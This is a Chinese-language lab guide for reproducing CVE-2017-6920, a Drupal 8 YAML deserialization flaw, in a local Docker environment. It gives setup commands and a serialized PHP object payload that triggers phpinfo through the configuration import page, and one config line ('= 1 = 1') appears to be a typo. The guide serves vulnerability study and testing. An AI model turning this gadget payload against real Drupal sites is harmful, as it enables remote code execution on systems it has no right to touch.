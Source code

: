 # Drupal Core 8 PECL YAML 反序列化任意代码执行漏洞（CVE-2017-6920）

* 影响软件：Drupal
* 方式：反序列化
* 参考链接：[CVE-2017-6920:Drupal远程代码执行漏洞分析及POC构造](https://paper.seebug.org/334/)
* 效果：任意代码执行

## 漏洞环境

执行如下命令启动 drupal 8.3.0 的环境：

```bash
docker-compose up -d
```

环境启动后，访问 `http://your-ip:8080/` 将会看到drupal的安装页面，一路默认配置下一步安装。因为没有mysql环境，所以安装的时候可以选择sqlite数据库。

## 漏洞复现

* 先安装 `yaml` 扩展

```bash
# 换镜像源，默认带vim编辑器，所以用cat换源，可以换成自己喜欢的源
cat > sources.list << EOF
deb http://mirrors.163.com/debian/ jessie main non-free contrib
deb http://mirrors.163.com/debian/ jessie-updates main non-free contrib
deb http://mirrors.163.com/debian/ jessie-backports main non-free contrib
deb-src http://mirrors.163.com/debian/ jessie main non-free contrib
deb-src http://mirrors.163.com/debian/ jessie-updates main non-free contrib
deb-src http://mirrors.163.com/debian/ jessie-backports main non-free contrib
deb http://mirrors.163.com/debian-security/ jessie/updates main non-free contrib
deb-src http://mirrors.163.com/debian-security/ jessie/updates main non-free contrib
EOF
# 安装依赖
apt update
apt-get -y install gcc make autoconf libc-dev pkg-config
apt-get -y install libyaml-dev
# 安装yaml扩展
pecl install yaml
docker-php-ext-enable yaml.so
# 启用 yaml.decode_php 否则无法复现成功
echo 'yaml.decode_php = 1 = 1'>>/usr/local/etc/php/conf.d/docker-php-ext-yaml.ini
# 退出容器
exit
# 重启容器，CONTAINER换成自己的容器ID
docker restart CONTAINER
```

* 1.登录一个管理员账号
* 2.访问 `http://127.0.0.1:8080/admin/config/development/configuration/single/import`
* 3.如下图所示，`Configuration type` 选择 `Simple configuration`，`Configuration name` 任意填写，`Paste your configuration here` 中填写PoC如下：

```php
!php/object "O:24:\"GuzzleHttp\\Psr7\\FnStream\":2:{s:33:\"\0GuzzleHttp\\Psr7\\FnStream\0methods\";a:1:{s:5:\"close\";s:7:\"phpinfo\";}s:9:\"_fn_close\";s:7:\"phpinfo\";}"
```

![1](1.png)

* 4.点击 `Import` 后可以看到漏洞触发成功，弹出 `phpinfo` 页面。

![2](2.png)

* Tips：
  * 虽然官方 CPE 信息显示从 `8.0.0` 开始就有该漏洞，但是在 `drupal:8.0.0` 容器内并没有复现成功，相同操作在 `drupal:8.3.0` 则可以复现成功，故基础镜像选择`drupal:8.3.0`
